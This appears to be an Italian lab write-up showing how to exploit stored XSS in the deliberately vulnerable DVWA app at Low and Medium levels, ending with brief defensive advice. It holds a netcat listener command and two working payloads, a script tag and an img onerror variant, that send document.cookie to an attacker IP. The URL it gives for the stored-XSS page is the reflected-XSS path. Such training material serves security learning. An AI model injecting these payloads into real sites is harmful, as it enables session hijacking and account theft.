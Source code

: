 # Exploit XSS Persistente su DVWA (Low e Medium)

Questa guida illustra come sfruttare una vulnerabilità di **Cross-Site Scripting (XSS) Persistente** sulla piattaforma **DVWA (Damn Vulnerable Web Application)** in modalità Low e Medium. L'obiettivo è simulare il furto di cookie di sessione inviandoli a un server sotto il nostro controllo.

## Requisiti
- **DVWA** installato e configurato.
- Livelli di Sicurezza impostati su **Low** e **Medium**.
- **Server di Ascolto** su Kali Linux configurato per ricevere i cookie sulla porta 4444.

### Indirizzi IP:
- Kali Linux: 192.168.13.100
- Metasploitable: 192.168.13.150

---

## Parte 1: XSS Persistente in Modalità Low

### Obiettivo
Iniettare uno script malevolo nella web application DVWA per inviare i cookie della sessione al nostro server di ascolto.

### Passaggi
1. **Configura il Server di Ascolto su Kali Linux:**
   Avvia Netcat per ricevere i cookie sulla porta 4444:
   ```bash
   nc -lvnp 4444
   ```

2. **Accedi a DVWA:**
   Vai alla sezione **XSS Persistente:**
   ```
   http://192.168.13.150/dvwa/vulnerabilities/xss_r/
   ```

3. **Inserisci il Payload:**
   Usa il seguente script JavaScript nel campo vulnerabile (esempio: un campo commento):
   ```html
   <script>
     fetch('http://192.168.13.100:4444', {
       method: 'POST',
       body: document.cookie
     });
   </script>
   ```

4. **Esegui il Payload:**
   Invia il payload premendo **Submit**. Ogni volta che la pagina viene caricata, lo script invierà i cookie della sessione al server di ascolto.

5. **Verifica i Cookie su Kali Linux:**
   Sul terminale di Kali Linux, dovresti vedere i cookie della sessione, ad esempio:
   ```
   PHPSESSID=abcdef1234567890; security=low
   ```

---

## Parte 2: XSS Persistente in Modalità Medium

### Obiettivo
Aggirare i filtri di input e sfruttare la vulnerabilità XSS per ottenere i cookie della sessione.

### Passaggi
1. **Configura il Server di Ascolto su Kali Linux:**
   Utilizza lo stesso comando di Netcat:
   ```bash
   nc -lvnp 4444
   ```

2. **Accedi a DVWA:**
   Vai alla sezione **XSS Persistente:**
   ```
   http://192.168.13.150/dvwa/vulnerabilities/xss_r/
   ```

3. **Inserisci il Payload Alternativo:**
   Poiché `<script>` potrebbe essere filtrato, utilizza il seguente payload:
   ```html
   <img src="nonexistent.jpg" onerror="fetch('http://192.168.13.100:4444', {method: 'POST', body: document.cookie})">
   ```

4. **Esegui il Payload:**
   Invia il payload premendo **Submit**. Ogni volta che un utente carica la pagina, l'evento `onerror` si attiverà e invierà i cookie al server di ascolto.

5. **Verifica i Cookie su Kali Linux:**
   Controlla il terminale e verifica i cookie ricevuti:
   ```
   PHPSESSID=abcdef1234567890; security=medium
   ```
![xss](./xssmed.png)
---

## Spiegazione dei Payload

### Payload in Modalità Low
- `<script>`: Inietta uno script JavaScript nella pagina vulnerabile.
- `document.cookie`: Recupera i cookie della sessione della vittima.
- `fetch`: Invia i cookie al server dell'attaccante tramite una richiesta HTTP POST.

### Payload in Modalità Medium
- `<img src="nonexistent.jpg">`: Un'immagine che non esiste attiva l'evento `onerror`.
- `onerror`: Contiene lo script malevolo per inviare i cookie.
- `fetch`: Come sopra, invia i cookie al server.

---

## Considerazioni di Sicurezza
Per proteggere le applicazioni da attacchi XSS:

- **Sanitizzazione dell'Input:**
  Filtra e valida tutti i dati forniti dagli utenti per evitare l'iniezione di codice malevolo.
- **Cookie HTTPOnly:**
  Imposta i cookie di sessione come HTTPOnly per impedire l'accesso tramite JavaScript.
- **Content Security Policy (CSP):**
  Configura una CSP per limitare l'esecuzione di script non autorizzati.

---

## Conclusione
Abbiamo dimostrato come sfruttare una vulnerabilità XSS Persistente su DVWA in modalità Low e Medium per rubare cookie di sessione. Questa guida evidenzia l'importanza di implementare misure di sicurezza per prevenire attacchi XSS.

Se hai bisogno di ulteriori chiarimenti o supporto, non esitare a contattarci! 🚀
